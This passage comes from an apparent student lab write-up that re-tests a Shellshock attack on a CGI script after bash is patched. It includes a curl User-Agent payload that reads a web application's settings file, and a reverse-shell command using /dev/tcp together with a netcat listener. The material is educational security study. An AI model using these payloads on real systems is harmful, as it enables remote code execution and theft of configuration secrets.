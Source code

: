 ```
```
Image below shown that the user-agent is still changed in the patched bash. 
![](/assets/images/16326883206491/16327666168176.jpg)

### 6.4 Redo Task04
We were curious whether our attack still work. Therefore, we execute the attack command below again. 
```shell 
$  curl http://localhost/cgi-bin/myprog.cgi -s -A \
"() { echo hello; }; echo Content_type: text/plain; echo;\
/bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
```
The image below shows that previous attack commands cannot work anymore. The server handler our user-agent value as an environmental variable instead of a function. Furthermore, the malicious code did not execute in this case. 
![](/assets/images/16326883206491/16327670674094.jpg)

#### 6.5 Redo Task05
We firstly re-tried the reveres bash. We reused all previous commands in task05, and these codes are demonstrated below. 
```shell
# Commands used on attacker. 
$ echo 'export PS1="[ATC]\[\e[1;32m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
$ nc -l 9090 -v

# Commands used on server. 
$ echo 'export PS1="[SEV]\[\e[1;36m\]\u@\h\[\e[m\]:\w\\$ "' >> ~/.bashrc
$ source ~/.bashrc
$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1

```
Image below is the output, where the reverse bash still work. It is because it do not use the `Bash v4.2` in there. 
![](/assets/images/16326883206491/16327700510840.jpg)
